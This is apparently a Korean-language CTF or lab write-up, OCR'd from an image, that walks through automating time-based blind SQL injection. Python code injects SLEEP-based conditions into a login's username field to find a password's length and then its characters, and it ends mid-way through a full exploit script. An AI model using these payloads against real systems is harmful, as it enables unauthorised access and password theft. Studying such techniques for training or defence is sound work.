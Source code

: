     `res`의 `elapsed`속성은 `timedelta` 객체임. 이는 요청이 시작된 시점부터 응답이 완료된 시점까지 걸린 시간을 나타냄
    
    |
    
4. 완성된 find_password_length
    
    ```python
    def find_password_length(url, username, password, sleep_time):
    	for length in range(0, 51): # 0부터 50까지
    		payload= {"username": f"{username}' AND LENGTH(password) = {length} AND SLEEP({sleep_time}) -- 1", "password": f"{password}"}
    		res = requests.post(url, data=payload)
    		if res.elapsed.total_seconds() > sleep:
    			return length
    ```
    

|

|

### 자동화 코드: find_password_length

---

1. payload 수정
    
    `SLEEP()` 추가
    
    ```python
    payload = {"username":f"{username}' AND ASCII(SUBSTRING(password, {length}, 1)) = {ascii_code} AND SLEEP({sleep_time}) -- 1", "password":f"{password}"}
    ```
    

1. 성공 로직 수정
    
    ```python
    if res.elapsed.total_seconds() > sleep_time:
    	string+= chr(ascii_code) # ascii 값을 문자로 변환
    	print(f"현재까지 알아낸 비밀번호: {string}")
    	break
    ```
    

|

|

|

## Exploit

```sql
import requests

# 비밀번호 길이 찾기
def find_password_length(url, username, password, sleep_time):
	for length in range(0, 51): # 0부터 50까지
		payload= {"username": f"{username}' AND LENGTH(password) = {length} AND SLEEP({sleep_time}) -- 1", "password": f"{password}"}
		res = requests.post(url, data=payload)
		if res.elapsed.total_seconds() > sleep_time:
			return length

# 비밀번호 찾기
def find_password(url, password_length, username, password, sleep_time):
```